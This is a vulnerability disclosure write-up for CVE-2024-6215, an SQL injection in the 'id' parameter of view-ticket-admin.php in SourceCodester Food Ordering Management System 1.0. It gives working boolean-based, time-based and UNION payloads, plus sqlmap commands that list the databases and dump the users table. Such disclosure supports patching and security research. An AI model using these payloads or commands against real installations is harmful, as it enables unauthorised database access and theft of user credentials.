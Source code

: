 ```yaml
---
title: CVE-2024-6215
draft: false
tags:
  - cve
---
```

# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (view-ticket-admin.php)
## CVE-2024-6215
> A vulnerability was found in SourceCodester Food Ordering Management System up to 1.0. It has been rated as critical. This issue affects some unknown processing of the file view-ticket-admin.php. The manipulation of the argument id leads to sql injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-269279.

**Affected Project**: Sourcecodester Food Ordering Management System 1.0

**Official Website**: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

**Version**: 1.0

**Related Code file**: view-ticket-admin.php

**Injection parameter**: id


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The id fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the view-ticket-admin.php:

`http://172.16.76.1/foms/view-ticket-admin.php`

![image](https://github.com/jadu101/CVE/assets/76433661/f00bf9b6-8a1f-4d34-b2dd-2c2616ef8c03)

We will first intercept the view-ticket traffic using Burp Suite:

![Screenshot from 2024-06-19 14-21-17](https://github.com/jadu101/CVE/assets/76433661/ca1c3344-5aac-479d-9813-f972980db5ea)

Save the intercepted request to a .txt file and execute sqlmap towards it. 

id price is vulnerable to boolean-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-view-ticket-admin.txt --batch`

![Screenshot from 2024-06-19 14-22-34](https://github.com/jadu101/CVE/assets/76433661/06552488-4803-4c06-a35e-f99d32a10de8)

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5820=5820

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1153 FROM (SELECT(SLEEP(5)))TJiA)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=-3013 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176716b71,0x674f514145744f534654486259594c6e6d63775669714f656656796b687747487963774273506755,0x716a6a6a71),NULL,NULL-- -
---
```

`sqlmap -r foms-view-ticket-admin.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/efe8ddc0-e9c0-4a8e-b51c-cd626365ce3b)

`sqlmap -r foms-view-ticket-admin.txt --batch --dbs -D foms_db -T users --dump`

![image](https://github.com/jadu101/CVE/assets/76433661/cad2be77-d4c7-45f6-b4ef-726d1a6e751f)

